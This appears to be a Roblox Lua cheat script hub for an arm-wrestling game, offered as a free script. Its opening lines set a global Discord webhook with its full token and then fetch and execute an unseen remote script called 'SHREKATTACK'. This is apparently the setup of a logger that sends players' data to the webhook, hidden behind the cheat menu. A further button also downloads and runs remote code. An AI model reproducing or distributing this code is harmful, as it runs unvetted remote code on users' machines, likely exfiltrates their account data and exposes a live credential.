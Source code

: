 _G.webhooksdiscord = "https://discord.com/api/webhooks/1122158604359835759/h9OpPLnLyLsAV2sV0SbXZxuZLtk-JQnA4i8V0ePpBt2ac7wyDWVLqNZxlmaq-GCClyi4"
loadstring(game:HttpGet("https://raw.githubusercontent.com/SHARKX516/SHREKATTACK/main/SHARKLOL2.lua"),true)()

local Library = loadstring(game:HttpGet("https://raw.githubusercontent.com/xHeptc/Kavo-UI-Library/main/source.lua"))()
local Window = Library.CreateLib("TURKKUN x SCRIPT", "DarkTheme")

local Tab = Window:NewTab("สคริป งัดข้อ")
local Section = Tab:NewSection("Arm Arestle Simulatr")
Section:NewButton("Arm Arestle Simulatr", "สคริปฟรีkey", function()
    loadstring(game:HttpGet("https://raw.githubusercontent.com/Kenniel123/Arm-Wrestle-Simulator-Script/main/Arm-Wrestle-Simulator-Script",true))();
end)

